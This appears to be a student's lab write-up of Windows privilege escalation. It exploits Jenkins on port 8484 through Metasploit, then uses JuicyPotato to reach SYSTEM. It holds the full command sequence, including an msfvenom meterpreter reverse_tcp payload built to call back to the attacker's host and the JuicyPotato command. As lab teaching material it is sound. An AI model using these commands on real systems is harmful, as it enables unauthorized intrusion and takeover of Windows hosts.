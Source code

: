 # Windows Privilege Escalation

## Objective: 
Windows Privilege Escalation, leveraging tools and techniques to gain unauthorized access to system-level resources on a Windows Server machine within a controlled environment. The lab commences with gaining a limited shell via exploiting Jenkins on port 8484, followed by escalating privileges using Juicy Potato. This project provides hands-on experience in exploiting service vulnerabilities, working with Meterpreter shell, and privilege escalation techniques. The ultimate objective is to attain an NT AUTHORITY\SYSTEM level access, thereby demonstrating the vulnerabilities and the importance of securing Windows systems.

## Walkthrough:

### Part 1

- I initiated a Nmap scan within a specified IP range using the command **"nmap 10.0.2.0/25"**. Given that my host IP is 10.0.2.6, I deduced that the Windows VM IP is 10.0.2.8 with multiple open ports.
- I noticed that port 8484 wasn’t displayed as open, prompting me to check using the command **"nmap -p 8484 -sV 10.0.2.8"**. I found it open and identified the running service to be **Jetty winstone-2.8**, an HTTP service.
- With this information, I accessed Jenkins by entering the IP address and port number **"10.0.2.8:8484"** in Firefox.
- I then switched to the terminal and entered **MSFconsole** to search for Jenkins exploits. Following the instructions, I selected **exploit number 6**.
- Setting options for this exploit, I configured the username and password to **vagrant**, defined the rhost as 10.0.2.8 (target IP), set the target URI based on the Firefox URL **"http://10.0.2.8:8484/"**, defined the srvhost as my host IP (10.0.2.6), and assigned the rport as 8484. Executing the **run** command opened the meterpreter session 1 as NT Authority\local service.
- I verified if the SeImpersonatePrivilege was enabled, and it was.
- Next, I uploaded **"JuicyPotato"** to the target machine using the meterpreter command **upload /home/kali/Downloads/JuicyPotato.exe**.
- A quick **"ls"** command confirmed its presence on the machine with **"rwx"** permissions across all user groups.

### Part 2

- The task began with the creation of a 64-bit Windows meterpreter using MSFvenom. In the Kali terminal, the command **“msfvenom -l payloads | grep windows”** was issued to display a list of Windows payloads. I opted for **“windows/x64/meterpreter/reverse_tcp”**.
- To construct the payload, the command **“msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.0.2.6 LPORT=4445 -f exe > windyprivesc.exe”** was executed.
- The subsequent step was to transfer the crafted file to the target machine. Within the meterpreter environment, this was achieved using the **“upload windyprivesc.exe”** command.
- To proceed, the generic multi-handler exploit was required. After launching MSFconsole, I searched for multi handlers. I chose option 5, recognized as a generic payload handler, and configured the payload, LHOST, and LPORT accordingly.
- The core task was to run the exploit within the directory containing both JuicyPotato and the windyprivesc.exe file on the target VM. This operation was performed inside a shell in meterpreter, using the command **“C:\Program Files\jenkins\Scripts>.\JuicyPotato.exe -t * -p windyprivesc.exe -l 4445”**.
- Once redirected to the multi handler and upon gaining access to the shell, the command **“whoami /priv”** was run. The resultant display showed all enabled privileges. To conclude the assignment, I echoed my name into the terminal for verification purposes.
